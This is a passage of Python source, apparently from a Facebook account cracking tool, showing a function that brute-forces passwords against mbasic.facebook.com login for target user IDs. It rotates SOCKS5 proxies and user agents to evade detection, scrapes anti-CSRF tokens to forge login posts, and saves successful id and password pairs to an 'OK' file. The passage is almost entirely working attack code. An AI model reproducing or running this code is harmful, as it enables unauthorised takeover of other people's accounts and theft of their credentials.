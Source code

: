 				open('OK/'+okc,'a').write(idf+'|'+pw+'\n')

				break

				

			else:

				continue

		except requests.exceptions.ConnectionError:

			time.sleep(61)

	loop+=1



#MBASIC#

def crackmbasic(idf,pwv):

	global loop,ok,cp

	bi = random.choice([b,h,hh])

	pers = loop*100/len(id2)

	fff = '%'

	nip=random.choice(prox)

	proxs= {'http': 'socks5://'+nip}

	ua = random.choice(ugen)

	ua2 = random.choice(ugen2)

	ses = requests.Session()

	sys.stdout.write('\r%s  %s/%s  OK:%s CP:%s  %s%s%s '%(bi,loop,len(id2),ok,cp,int(pers),str(fff),x));sys.stdout.flush()

	for pw in pwv:

		try:

			ses.headers.update({'Host': 'mbasic.facebook.com','cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'})

			p = ses.get('https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')

			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}

			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])

			koki+=' m_pixel_ratio=2.625; wd=412x756'

			heade={'Host': 'mbasic.facebook.com','cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://mbasic.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate, br','accept-language': 'fr_FR,fr;q=0.9,en-US;q=0.8,en;q=0.7','connection': 'close'}
